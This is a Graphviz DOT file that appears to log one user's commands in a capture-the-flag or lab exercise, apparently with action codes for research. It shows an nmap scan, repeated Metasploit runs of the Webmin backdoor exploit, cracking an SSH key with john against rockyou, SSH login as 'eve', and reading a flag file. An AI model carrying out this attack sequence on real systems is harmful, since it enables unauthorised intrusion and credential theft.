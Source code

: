 // creating graph for user: 43
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 M0 "]
	8 [label="chmod +x webmin.sh A15 "]
	12 [label="ls A10 "]
	13 [label="chmod +x 47230.rb A15 "]
	14 [label="ls A10 "]
	22 [label="msfconsole M2 "]
	23 [label="use 47230.rb A4 "]
	24 [label="show targets A5 "]
	25 [label="set TARGET 0 A6 "]
	26 [label="exploit M8 "]
	27 [label="show options M5 "]
	28 [label="set TARGETURI /root/ A6 "]
	29 [label="show options V5 "]
	30 [label="set RHOSTS 172.18.1.1 M6 "]
	31 [label="exploit V8 "]
	32 [label="use exploit/unix/webapp/webmin_backdoor  V8 "]
	33 [label="show options V5 "]
	34 [label="exploit V8 "]
	35 [label="set TARGET 0 A6 "]
	36 [label="exploit V8 "]
	37 [label="set RHOSTS 172.18.1.5 V6 "]
	38 [label="exploit V8 "]
	39 [label="set LHOST 0.0.0.0 V6 "]
	40 [label="exploit V8 "]
	41 [label="show options V5 "]
	42 [label="set TARGETURI /root/ A6 "]
	43 [label="exploit V8 "]
	44 [label="set TARGETURI / A6 "]
	45 [label="show options V5 "]
	46 [label="exploit V8 "]
	47 [label="set LHOST 127.0.0.1 V6 "]
	48 [label="exploit V8 "]
	51 [label="set LHOST 192.168.131.153 V6 "]
	52 [label="exploit V8 "]
	53 [label="show options V5 "]
	54 [label="set LHOST 10.1.135.83 V6 "]
	55 [label="exploit V8 "]
	56 [label="check A7 "]
	57 [label="show options V5 "]
	58 [label="exploit V8 "]
	65 [label="msfconsole V2 "]
	66 [label="use exploit/unix/webapp/webmin_backdoor  V8 "]
	67 [label="show options V5 "]
	69 [label="set LHOST 10.1.135.83 V6 "]
	71 [label="set RHOST 172.168.1.5 A6 "]
	72 [label="exploit V8 "]
	73 [label="show options V5 "]
	74 [label="set TARGET 0 A6 "]
	75 [label="exploit V8 "]
	76 [label="set RHOST 192.168.1.5 A6 "]
	77 [label="exploit V8 "]
	78 [label="set RHOST 172.18.1.5 A6 "]
	79 [label="exploit V8 "]
	80 [label="show options V5 "]
	81 [label="set TARGET 0 A6 "]
	82 [label="exploit V8 "]
	83 [label="show options V5 "]
	84 [label="set TARGET 0 A6 "]
	85 [label="exploit V8 "]
	86 [label="set TARGET 0 A6 "]
	88 [label="exploit V8 "]
	89 [label="set TARGET 0 A6 "]
	90 [label="exploit V8 "]
	91 [label="set TARGET 0 A6 "]
	94 [label="ls A10 "]
	95 [label="./ssh2john.py ~/Desktop/key.txt > hash A14 A16 "]
	96 [label="ls A10 "]
	97 [label="man john A14 "]
	98 [label="john --wordlist=/usr/share/wordlists/rockyou.txt hash M14 "]
	99 [label="msfconsole V2 "]
	100 [label="use /exploit/unix/webapp/webmin_backdoor V8 "]
	101 [label="use exploit/unix/webapp/webmin_backdoor  V8 "]
	102 [label="show options V5 "]
	103 [label="set RHOST 172.18.1.5 A6 "]
	104 [label="set TARGET 0 A6 "]
	106 [label="set LHOST 10.1.135.83 V6 "]
	107 [label="ssh -i key.txt eve@10.1.17.45 M16 "]
	108 [label="ssh -i key.txt eve@10.1.17.4 V16 "]
	109 [label="ssh -i key.txt eve@10.1.17.4 V16 "]
	110 [label="chmod 777 key.txt A15 "]
	111 [label="ssh -i key.txt eve@10.1.17.4 V16 "]
	112 [label="chmod 400 key.txt A15 "]
	113 [label="ssh -i key.txt eve@10.1.17.4 V16 "]
	114 [label="ls A10 "]
	116 [label="ls A10 "]
	117 [label="cat flag.txt M17 "]
	0 -> 8 [constraint=false]
	8 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 69 [constraint=false]
	69 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	rankdir=LR
}
